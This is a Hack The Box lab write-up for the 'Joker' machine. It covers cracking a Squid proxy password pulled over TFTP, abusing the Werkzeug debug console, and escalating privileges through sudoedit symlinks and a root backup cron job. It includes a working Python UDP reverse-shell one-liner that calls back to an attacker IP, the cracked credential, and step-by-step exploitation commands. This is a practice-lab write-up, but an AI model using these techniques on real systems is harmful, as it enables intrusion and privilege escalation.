

# HTB - Joker  10.10.10.21


- Linux 4.8.0-52-generic #55-Ubuntu SMP Fri Apr 28 13:28:50 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
- Ubuntu 16.10 

- Find squid proxy on port 3128
- Use tftp to get /etc/squid/squid.conf 
- John the password hash stored in squid.conf => kalamari:ihateseafood
- Use nikto on proxy with auth to find /console
- Use console to get reverse shell
  - TCP out are iptables filtered
  - reverseshell in UDP
- nc as user werkzeug
  - sudo -l => sudoedit_follow, !sudoedit_checkdir, (alekos) NOPASSWD: sudoedit /var/www/*/*/layout.html
  - generate a new ssh_key
  - ln -s /home/alekos/.ssh/authorized_keys layout.html
  - sudoedit -u alekos /var/www/testing/yolo/layout.html
- ssh alekos@10.10.10.21 -i joker_alekos_rsa
  - user.txt
  - A root process backup  ~/development in ~/backup/xxx.targ.gz
  - create a symlink /root ~/development and wait for /root to be backuped


## Writeup

- https://reboare.github.io/hackthebox/htb-joker.html
- https://www.absolomb.com/2017-12-30-HackTheBox-Joker-Writeup/


## Nmap TCP
```
# nmap -sC -sV -A 10.10.10.21 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-20 17:48 CEST
Nmap scan report for 10.10.10.21
Host is up (0.032s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 88:24:e3:57:10:9f:1b:17:3d:7a:f3:26:3d:b6:33:4e (RSA)
|   256 76:b6:f6:08:00:bd:68:ce:97:cb:08:e7:77:69:3d:8a (ECDSA)
|_  256 dc:91:e4:8d:d0:16:ce:cf:3d:91:82:09:23:a7:dc:86 (ED25519)
3128/tcp open  http-proxy Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
```

## Nmap UDP
```
nmap -sU  10.10.10.21
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-20 19:31 CEST
Nmap scan report for 10.10.10.21
Host is up (0.030s latency).
Not shown: 998 closed ports
PORT     STATE         SERVICE
69/udp   open|filtered tftp
5355/udp open|filtered llmnr
```

## 3128 : squid




Le proxy doit pemettre d'accéder à un serveur interne, mais il faut passer l'authentification.
Un indice : kalamari


## tftp

### Get squid conf

```
# tftp 10.10.10.21

tftp> get /etc/passwd
Error code 2: Access violation

tftp> get /etc/squid/squid.conf           
Received 295428 bytes in 17.7 seconds

```

Dans /etc/squid/squid.conf, on trouve la partie authent
```
#
# INSERT YOUR OWN RULE(S) HERE TO ALLOW ACCESS FROM YOUR CLIENTS
#
auth_param basic program /usr/lib/squid/basic_ncsa_auth /etc/squid/passwords    <=== on le récupère aussi
auth_param basic realm kalamari
```
```
# tftp 10.10.10.21

tftp> get /etc/squid/passwords
Received 48 bytes in 0.0 seconds
tftp> 

cat passwords
kalamari:$apr1$zyzBxQYW$pL360IoLQ5Yum5SLTph.l0
```

### Bruteforce des fichiers accessibles par tftp

- https://github.com/EnableSecurity/tftptheft

Le script a des pb avec les lignes vides.
Il faut nettoyer la première ligne de common.txt

```
# cd tftp/tftptheft-master
# cp /usr/share/wordlists/dirb/common.txt .
# ./thief.py -p 69 -f ./common.txt 10.10.10.21 -v
Test:   4% |||||                                                                        | ETA:  00:10:16

```

### John et rockyou 

```
# john  passwords --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:59 14.52% (ETA: 14:51:05) 0g/s 38292p/s 38292c/s 38292C/s 2902709..29022005
0g 0:00:02:18 36.13% (ETA: 14:50:41) 0g/s 38272p/s 38272c/s 38272C/s mufdyvr..mufctillidies
ihateseafood     (kalamari)
1g 0:00:03:16 DONE (2019-09-21 14:47) 0.005076g/s 37776p/s 37776c/s 37776C/s ihatesex!..ihateseabass
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```
=>  ihateseafood     (kalamari)

On a le mot de passe du proxy

### Hashcat sous windows (non testé)

```
C:\hashcat-3.5.0> .\hashcat64.exe --help | findstr apr
   1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR)            | HTTP, SMTP, LDAP Server

C:\hashcat-3.5.0> .\hashcat64.exe -m 1600 -a 0 -o crackedjoker .\jokerhash.txt .\rockyou.txt
hashcat (v3.5.0) starting...

...
Output Truncated
...

C:\hashcat-3.5.0> type .\crackedjoker
$apr1$zyzBxQYW$pL360IoLQ5Yum5SLTph.l0:ihateseafood

So we have the password for the user kalamari as ihateseafood
```


## HTTP: 127.0.0.1 via 10.10.10.21:3128 kalamari:ihateseafood


On demande un scan du localhost au proxy

### dirb

```
# dirb http://127.0.0.1 -p 10.10.10.21:3128 -P kalamari:ihateseefood

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Sep 21 15:03:50 2019
URL_BASE: http://127.0.0.1/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
PROXY: 10.10.10.21:3128
PROXY AUTHORIZATION: kalamari:ihateseefood

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://127.0.0.1/ ----
                                                                                                                                               
-----------------
END_TIME: Sat Sep 21 15:06:18 2019
DOWNLOADED: 4612 - FOUND: 0
```
Rien avec common.txt. Dirb n'est pas bon avec un plus gros fichier...
On passe à gobuster

### Nikto

```
#  nikto -host 127.0.0.1 -useproxy http://10.10.10.21:3128   : on va entrer kalamari et iloveseafood à la main
- Nikto v2.1.6
---------------------------------------------------------------------------
Proxy ID: kalamari   <====

Proxy Pass: <======
+ Target IP:          127.0.0.1
+ Target Hostname:    127.0.0.1
+ Target Port:        80
+ Proxy:              10.10.10.21:3128
+ Start Time:         2019-09-21 15:15:48 (GMT2)
---------------------------------------------------------------------------
+ Server: Werkzeug/0.10.5-dev Python/2.7.12+
+ Retrieved via header: 1.1 joker (squid/3.5.12)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'x-cache' found, with contents: MISS from joker
+ Uncommon header 'x-cache-lookup' found, with contents: MISS from joker:3128
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server banner has changed from 'Werkzeug/0.10.5-dev Python/2.7.12+' to 'squid/3.5.12' which may suggest a WAF, load balancer or proxy is in place
+ Uncommon header 'x-squid-error' found, with contents: ERR_INVALID_REQ 0
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-3092: /console: This might be interesting...
+ 7519 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2019-09-21 15:20:27 (GMT2) (279 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
=> /console


### gobuster

```
# /opt/gobuster/gobuster dir -p http://10.10.10.21:3128 -U kalamari -P ihateseafood -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://127.0.0.1  -l -x html,php,js,txt
```


### 127.0.0.1/console via proxy

Dans le header Werkzeug/0.10.5-dev Python/2.7.12+
- Werkzeug - 'Debug Shell' Command Execution
    - https://www.exploit-db.com/exploits/43905


```
>>> subprocess.check_output(['cat','/etc/iptables/rules.v4'])
'# Generated by iptables-save v1.6.0 on Fri May 19 18:01:16 2017\n
*filter\n
:INPUT DROP [41573:1829596]\n
:FORWARD ACCEPT [0:0]\n
:OUTPUT ACCEPT [878:221932]\n
-A INPUT -i ens33 -p tcp -m tcp --dport 22 -j ACCEPT\n
-A INPUT -i ens33 -p tcp -m tcp --dport 3128 -j ACCEPT\n
-A INPUT -i ens33 -p udp -j ACCEPT\n
-A INPUT -i ens33 -p icmp -j ACCEPT\n
-A INPUT -i lo -j ACCEPT\n
-A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP\n            <==== pas de connection sortante en tcp
COMMIT\n
# Completed on Fri May 19 18:01:16 2017\n'  

>>> subprocess.check_output(['whoami'])
'werkzeug\n'
>>> subprocess.check_output(['pwd'])
'/var/www\n'
```

On utilise un reverse shell UDP en python 

```
>>> import subprocess;subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.14.18\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])
<subprocess.Popen object at 0x7f61076ea390>
```

nc ne gère pas UDP, on utilise socat
```
# socat file:`tty`,echo=0,raw udp-listen:1234
$ id
uid=1000(werkzeug) gid=1000(werkzeug) groups=1000(werkzeug)
$ 
```


## System

```
$ cat /etc/issue
Ubuntu 16.10 \n \l

werkzeug@joker:~$ uname -a
Linux joker 4.8.0-52-generic #55-Ubuntu SMP Fri Apr 28 13:28:50 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```


## Elevation

```
werkzeug@joker:~$ sudo -l
Matching Defaults entries for werkzeug on joker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    sudoedit_follow, !sudoedit_checkdir

User werkzeug may run the following commands on joker:
    (alekos) NOPASSWD: sudoedit /var/www/*/*/layout.html
```
We can edit a link with name /var/www/*/*/layout.html as alekos
Let make a link to /home/alekos/.ssh/authorized_keys
And put a key in


Generate a new ssh key on kali
```
# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): ./joker_alekos_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./joker_alekos_rsa.
Your public key has been saved in ./joker_alekos_rsa.pub.
The key fingerprint is:
SHA256:l/W2/NI5GJ/MgmM6SgIWhU9clyimgSyjBl5q1Qm8HYI root@kali
The key's randomart image is:
+---[RSA 2048]----+
|. +.=.o....      |
|+E B.O ...       |
|=.+.X o     .    |
|.= o.o     o .   |
|o  o    S o   o  |
|  . .    .   + . |
|     . .    . O.o|
|      o  . + o.O.|
|       ...+ . ..o|
+----[SHA256]-----+


cd /var/www/testing
mkdir yolo
cd yolo
ln -s /home/alekos/.ssh/authorized_keys layout.html
sudoedit -u alekos /var/www/testing/yolo/layout.html

copy paste joker_alekos_rsa.pub
save
```

## ssh as alekos
```
# ssh alekos@10.10.10.21 -i joker_alekos_rsa
The authenticity of host '10.10.10.21 (10.10.10.21)' can't be established.
ECDSA key fingerprint is SHA256:1yj4blzJwO5TYIZYFB3HMwXEqeflHc2iF1Idp3lZ94k.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.21' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.10 (GNU/Linux 4.8.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Sat May 20 16:38:08 2017 from 10.10.13.210
alekos@joker:~$ 

$ ls
backup  development  user.txt

ls -al ./backup:
total 11184
drwxrwx--- 2 root   alekos 20480 Sep 21 17:25 .
drwxr-xr-x 7 alekos alekos  4096 May 19  2017 ..
-rw-r----- 1 root   alekos 40960 Dec 24  2017 dev-1514134201.tar.gz
-rw-r----- 1 root   alekos 40960 Dec 24  2017 dev-1514134501.tar.gz
```

Every 5 min, a root process create a backup of development in backup.
The shell is saved in the tar.gz
```
alekos@joker:~/backup$ cat backup.sh 
#!/bin/sh
FILENAME="dev-$(date +%s).tar.gz"
cd /home/alekos/development;
tar cf /home/alekos/backup/$FILENAME *;
chown root:alekos /home/alekos/backup/$FILENAME;
chmod 640 /home/alekos/backup/$FILENAME;

```

Create a symlink to /root and wait for it to be backuped...
```
$ mv development/ development.bak
$ ln -s root development
```
WAit 5 min
```
$ tar xvf dev-1569076801.tar.gz
backup.sh
root.txt


alekos@joker:~/backup$ cat root.txt 
XXXXXXXXXXXXXXXXXXXXXXXxxxx
```
